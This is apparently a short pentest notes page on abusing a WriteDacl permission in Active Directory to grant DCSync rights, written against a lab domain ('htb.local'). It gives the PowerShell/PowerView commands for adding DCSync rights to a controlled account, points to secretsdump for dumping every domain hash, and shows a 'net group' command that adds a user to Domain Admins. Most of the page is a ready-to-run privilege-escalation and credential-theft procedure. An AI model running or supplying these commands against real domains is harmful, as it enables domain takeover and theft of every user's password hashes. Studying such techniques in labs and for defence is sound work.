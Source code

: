 # WriteDACL over DCSync

{% embed url="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FyTPWZkKJbJfX8uHiRzmn%2Fuploads%2F9wZRro7RFqbTpSH7wy7K%2Fimage.png?alt=media&token=8da8b9bb-ac02-45bf-aeed-dcf807897757" %}

> DCSync is an attack that allows an adversary to simulate the behavior of a domain controller (DC) and retrieve password data via domain replication. The classic use for DCSync is as a precursor to a [Golden Ticket](https://attack.stealthbits.com/how-golden-ticket-attack-works) attack, as it can be used to retrieve the KRBTGT hash.

If our group or user has WriteDacl. We can abuse it by running the following commands. We need valid credentials of an account that has the said privilege.&#x20;

```
$pass= ConvertTo-SecureString '<our-users-password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('DOMAINNAME\<our-user>', $pass)
Add-DomainObjectAcl  -Credential $cred  -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity <our-user> -Rights DCSync
```

Then all we need to do is use secretsdump and we should be able to dump all the hashes.&#x20;

We could also do,&#x20;

```
net group "Domain admins" <user> /add /domain
```
